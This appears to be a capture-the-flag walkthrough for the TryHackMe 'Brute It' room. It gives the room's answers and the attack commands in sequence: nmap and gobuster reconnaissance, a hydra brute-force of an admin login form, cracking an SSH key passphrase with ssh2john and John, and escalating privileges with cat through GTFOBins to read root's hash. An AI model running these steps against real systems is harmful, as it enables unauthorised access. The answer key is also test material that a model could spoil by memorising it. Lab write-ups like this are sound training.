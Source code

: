 # Brute It

### 1.Reconnaissance

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```



2.answers

1.Search for open ports using nmap.
How many ports are open?

```
2
```

2.What version of SSH is running?

```
OpenSSH 7.6p1 
```

3.What version of Apache is running?

```
2.4.29
```

4.Which Linux distribution is running?

```
Ubuntu
```

Search for hidden directories on web server.
What is the hidden directory?

```
/admin
```

### 2.Getting a shell

Find a form to get a shell on SSH.

Answer 

1.What is the user:password of the admin panel?

At first I tried the universal password but the background have set bypassed
So I turned to tools ﻿--hydra
Be careful when using the tool 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt MACHINE_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```

"/:username=^USER^&password=^PASS^:F=incorrect"
If it is a directory, it must end with / ("/admin/:)
Or for a specific filename (index.php:)
The error message is set according to different situations

Login to interface with password
And get the answers

2.Crack the RSA key you found. What is John's RSA Private Key passphrase?

We got the rsa file.

https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

All we have to do is run it against the private key and direct the results to a new hash file using the ssh2john Python tool:

```unknown
python ssh2john.py id_rsa > id_rsa.hash
```

Next, we'll use [John](https://null-byte.wonderhowto.com/how-to/use-john-ripper-metasploit-quickly-crack-windows-hashes-0200322/) to crack the password. 

```unknown
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

SSH into the Target

We can [SSH](https://null-byte.wonderhowto.com/how-to/set-up-ssh-server-with-tor-hide-from-shodan-hackers-0194455/) into the target using the **-i** option to specify a private key for authentication:

```unknown
ssh -i id_rsa john@MACHINE_IP
```

And we get an error. It won't allow us to use the key if permissions are too open, so all we have to do is set the permissions to be more restricted:

```unknown
 chmod 400 id_rsa
```

Successfully logged in as John

3.user.txt

4.Web flag

### 3.Privilege Escalation

https://tryhackme.com/room/linuxprivesc

View vulnerabilities that can be exploited to escalate privileges

find /bin/cat 

Tools: https://gtfobins.github.io/gtfobins/cat/

Elevate privileges View root password

Use john to crack the hash password